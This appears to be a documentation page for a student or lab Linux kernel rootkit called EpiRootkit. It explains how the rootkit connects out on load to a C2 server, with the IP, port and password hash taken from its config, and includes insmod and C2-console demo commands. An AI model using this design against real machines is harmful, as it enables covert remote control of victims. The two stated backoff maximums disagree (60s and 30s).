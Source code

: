 ```yaml
---
title: "Connection & Authentication"
description: "How the rootkit connects to C2 server and authenticates"
icon: "link"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 503
---
```


# Connection & Authentication

How EpiRootkit connects to the C2 server and handles authentication.

## Connection Process

### Automatic Connection
When the rootkit loads, it automatically:

1. **Starts connection thread** (`epirootkit_conn`)
2. **Attempts TCP connection** to configured C2 server
3. **Begins keepalive system** (60-second ping/pong)
4. **Handles reconnection** with exponential backoff

### Configuration
```c
// rootkit/core/config.h
#define C2_SERVER_IP "192.168.64.1"
#define C2_SERVER_PORT 4444
#define KEEPALIVE_INTERVAL_MS 60000
#define RECONNECT_DELAY_MS 5000
```

## Network Architecture

### Three-Layer System
1. **Connection Management** (`connection.c`) - High-level coordination
2. **Keepalive System** (`keepalive.c`) - Health monitoring
3. **Socket Management** (`socket.c`) - Low-level network operations

### Connection States
- `0` = DISCONNECTED
- `1` = CONNECTED  
- `2` = CONNECTING

## Authentication System

### How It Works
1. **C2 sends command**: `auth Client-1 password`
2. **Rootkit receives**: Plain text password
3. **Rootkit hashes**: Using SHA-512 kernel crypto API
4. **Compares hash**: Against stored hash in config
5. **Returns result**: SUCCESS or ERROR

### Implementation
```c
// Default password is "password" (SHA-512 hash stored in config)
#define PASSWORD_HASH "b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86"
```

### Security Features
- **Rate limiting**: 5 attempts per 60 seconds
- **Session timeout**: 1 hour automatic expiry
- **Secure hashing**: SHA-512 using kernel crypto API

## Live Demo

### 1. Start C2 Server
```bash
cd attacking_program && pnpm start
```

### 2. Load Rootkit
```bash
sudo insmod epirootkit.ko
```

**C2 server shows:**
```
[2025-05-25 16:13:09] New client connected: Client-1
[2025-05-25 16:13:09] Client-1 status: UNAUTHENTICATED
```

### 3. Check Connection
```bash
c2-server$ clients
# • Client-1 - UNAUTHENTICATED - Last seen: 6:13:09 PM
```

### 4. Authenticate
```bash
c2-server$ auth Client-1 password
# ✓ [2025-05-25 16:13:29] Authenticated
# SUCCESS: Authentication successful
```

### 5. Verify Authentication
```bash
c2-server$ clients
# • Client-1 - AUTHENTICATED - Last seen: 6:13:29 PM
```

## Keepalive System

### Purpose
- **Detect disconnections**: Network failures, system crashes
- **Maintain connection**: Regular ping/pong messages
- **Trigger reconnection**: When connection lost

### How It Works
- **Ping interval**: Every 60 seconds
- **Timeout detection**: 30 seconds for response
- **Failure threshold**: 3 consecutive failed pings
- **Automatic reconnection**: Exponential backoff (5s → 10s → 20s → 40s → 60s max)

### Monitoring
```bash
# Check keepalive status from C2
c2-server$ keepalive Client-1
# Keepalive Status:
# Last ping sent: 2025-05-25 16:14:00
# Last pong received: 2025-05-25 16:14:00
# Failed ping count: 0
# Connection stable: YES
```

## Reconnection Handling

### Disconnection Detection
1. **Socket-level**: Immediate network failures
2. **Keepalive timeout**: No response to ping
3. **Send failures**: Failed command results

### Reconnection Process
1. **Detect disconnection**
2. **Wait with backoff**: 5s → 10s → 20s → 30s (max)
3. **Attempt reconnection**
4. **Reset authentication**: Must re-authenticate after reconnect
5. **Resume operations**